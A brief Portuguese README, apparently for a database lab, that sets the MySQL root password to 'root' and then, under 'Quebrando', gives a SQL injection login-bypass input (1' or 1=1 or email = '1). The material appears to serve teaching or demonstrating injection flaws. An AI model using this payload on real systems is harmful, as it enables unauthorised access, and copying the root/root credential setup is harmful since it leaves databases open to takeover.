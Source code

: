 # Colocar senha no banco de dados
<pre>
mysql> ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'root';
mysql> FLUSH PRIVILEGES;
mysql> quit
</pre>


# Quebrando 
<pre>
    1' or 1=1 or email = '1
</pre>